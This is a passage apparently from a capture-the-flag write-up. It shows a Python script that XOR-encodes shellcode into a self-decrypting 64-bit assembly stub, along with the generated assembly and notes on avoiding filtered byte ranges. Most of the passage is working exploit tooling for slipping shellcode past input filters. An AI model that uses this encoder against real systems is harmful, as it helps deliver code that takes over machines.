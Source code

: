 ```python
    encoded_bytes += b2
    # if there are four bytes stored, add them to the output & start again
    if len(storage) == 4:
        # emit 
        commands += "xor dword [rax+_shellcode{}-_shellcode], {}\n".format(num_commands, hex(struct.unpack('<L', storage)[0]))
        defines += "_shellcode{} dd {}\n".format(num_commands, hex(struct.unpack('<L', encoded_bytes)[0]))
        storage = ''
        encoded_bytes = ''
        num_commands += 1
                
# output the resulting assembly 
print """bits 64
_start:

;mov rax, 10
;mov rdi, 0x400000
;mov rsi, 0x1000
;mov rdx, 7
;syscall
;lea rax, [_decoder]

_shellcode:
jmp _decoder
"""
print defines
print "_decoder:"
print commands
print "jmp _shellcode0"

```

This output the encoded shellcode as an assembly file. Using `nasm`, I could build it into shellcode again. For local testing, I included a call to `mprotect` and set the value of `rax` to the start of the shellcode, just like the situation on the remote server. The layout of the built shellcode (first encrypted bytes, then the decoder) is done on purpose: it avoids bad chars in the `xor dword [rax+offset]` instructions. The value for the offset should not be too high, as that would introduce bytes in the range `0x40` to `0x65`...

```
bits 64
_start:

;mov rax, 10
;mov rdi, 0x400000
;mov rsi, 0x1000
;mov rdx, 7
;syscall
;lea rax, [_decoder]

_shellcode:
jmp _decoder
_shellcode0 dd 0x70d02169
_shellcode1 dd 0x7a7e747f
_shellcode2 dd 0x151f7a6f
_shellcode3 dd 0x976912a0
_shellcode4 dd 0x69151fe7
_shellcode5 dd 0x1f866987
_shellcode6 dd 0x7011a015
_shellcode7 dd 0xd3151f7f

_decoder:
xor dword [rax+_shellcode0-_shellcode], 0x20101021
```